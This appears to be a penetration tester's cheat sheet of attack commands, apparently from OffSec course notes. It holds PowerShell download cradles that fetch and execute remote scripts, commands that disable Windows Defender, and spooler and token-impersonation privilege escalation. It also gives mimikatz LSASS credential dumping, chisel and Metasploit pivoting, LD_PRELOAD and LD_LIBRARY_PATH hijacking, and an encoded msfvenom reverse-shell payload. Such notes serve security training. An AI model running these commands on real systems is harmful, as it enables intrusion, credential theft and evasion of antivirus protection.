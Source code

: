 # Metasploit Autoroute
```bash
use post/multi/manage/autoroute
set subnet 172.16.216.0
set session 15
run
use server/socks_proxy
route
set srvport 8080
set version 4a
set srvhost 0.0.0.0
run
```


# Powershell
```powershell
#Download cradle and execute
(new-object system.net.webclient).downloadstring('http://192.168.45.185/SharpHound.ps1') | IEX


```

# Go Buster
```bash
gobuster dir -e -u http://192.168.120.132/ -w /usr/share/wordlists/dirb/common.txt
```

# Windows AV

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableRemovableDriveScanning $true
Set-MpPreference -DisableArchiveScanning $true
Get-MpComputerStatus
```

# Windows Credential

## SpoolSV Exploitation
```powershell
ls \\dc03\pipe\spoolss

SpoolSample.exe [Host Machine] [Target Pipe] <appsrv01\test>
PrintSpooferNet.exe [Target Pipe] <\\.\pipe\test\pipe\spoolss>
```
## Incognito Impersonation Metasploit
```powershell
#Inside Metasploit 
load incognito
list_tokens -u
impersonate_token corp1\\admin
getuid
```
## MiniDump
```powershell
#MiniDump.exe
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
```
# Network 

## Chisel Tunnel
```Powershell
#Server Side
./chisel server -p [Port] --reverse

#Client Side
./chisel client [Server IP Address]:[Port] R:[Remote Port]:socks

#Server Side
proxychains4 nmap [IP Address]
```
# Linux Command Injection 

## LD_LIBRARY_PATH Hijacking
Logic: Use LDD to find libgpg-error.so.0 → Use readelf to grep needed variable → Put into "Linux Shellcode Loaders/sharedLibrary_LD_LIBRARY_PATH.c" → Export the library path and Execute
```bash
ldd /usr/bin/top //Find out libgpg-error.so.0 => /lib/x86_64-linux-gnu/libgpg-error.so.0 (0x00007ff5aa0f8000)
readelf -s --wide /lib/x86_64-linux-gnu/libgpg-error.so.0 | grep FUNC | grep GPG_ERROR | awk '{print "int",$8}' | sed 's/@@GPG_ERROR_1.0/;/g'
gcc -Wall -fPIC -z execstack -c -o sharedLibrary_LD_LIBRARY_PATH.o sharedLibrary_LD_LIBRARY_PATH.c
gcc -shared -o sharedLibrary_LD_LIBRARY_PATH.so sharedLibrary_LD_LIBRARY_PATH.o -ldl
export LD_LIBRARY_PATH=/home/offsec/ldlib/
sudo top
```

## LD_PRELOAD
Logic: Use ltrace cp → find out the cp command use getuid → set LD_PRELOAD to hijack the function
```bash
gcc -Wall -fPIC -z execstack -c -o sharedLibrary_LD_PRELOAD.o sharedLibrary_LD_PRELOAD.c
gcc -shared -o sharedLibrary_LD_PRELOAD.so sharedLibrary_LD_PRELOAD.o -ldl
export LD_PRELOAD=/home/offsec/evil_geteuid.so
```

# MSF Console

## Payload Generation
```bash
#For linux XOR
sudo msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 prependfork=true -f elf -t 300 -e x64/xor_dynamic -o test.elf

```

## Post-exploitation
```powershell
execute -H -f notepad
migrate

##Download Host Recon
(new-object system.net.webclient).downloadstring('http://192.168.119.120/HostRecon.ps1') | IEX

## Check RunasPPL (If 1 -> Enabled)
Get-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\Lsa -Name "RunAsPPL"
```
